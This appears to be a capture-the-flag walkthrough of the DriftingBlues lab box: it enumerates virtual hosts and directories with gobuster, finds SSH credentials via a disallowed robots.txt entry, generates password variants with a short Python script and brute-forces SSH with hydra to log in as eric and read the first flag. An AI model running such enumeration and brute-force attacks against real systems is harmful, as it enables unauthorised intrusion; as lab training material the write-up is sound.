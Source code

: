 root@kali ~ [1]# gobuster vhost -u http://driftingblues.box/ -w /usr/share/wordlists/dirb/common.txt

There is only one domain that returns a 200 response code:

test.driftingblues.box

Adding test.driftingblues.box to the /etc/hosts file we can go to this domain:

"work in progress -eric "

We now have a possible user. Let's use gobuster to find any hidden files.

root@kali ~# gobuster dir -u http://test.driftingblues.box/ -w /usr/share/wordlists/dirb/common.txt

The domain has a robots.txt file:

User-agent: *
Disallow: /ssh_cred.txt
Allow: /never
Allow: /never/gonna
Allow: /never/gonna/give
Allow: /never/gonna/give/up

I think I just got RICKROLLED :(, knew this day would happen.
Going to http://test.driftingblues.box/ssh_cred.txt:

"we can use ssh password in case of emergency. it was "1mw4ckyyucky".

sheryl once told me that she added a number to the end of the password.

-db"

We now have another username and a possible password, but it says sheryl has added a number to the end of a the password, that means the corret password is 1mw4ckyyucky[0-9].
Writing a simple python script we can generate the passwords and bruteforce ssh with the users eric and sheryl.

passwordWithNumberInTheEnd.py:

{
import sys

MAX_DECIMEL = 9
password = sys.argv[1]

for i in range(MAX_DECIMEL + 1):
        print(password + str(i))
}

hydra -L users.txt -P passwordsWithNumberInTheEnd.txt 10.0.0.13 ssh

[22][ssh] host: 10.0.0.13   login: eric   password: 1mw4ckyyucky6

Loggin in via ssh we find the first flag.

user.txt:
flag 1/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█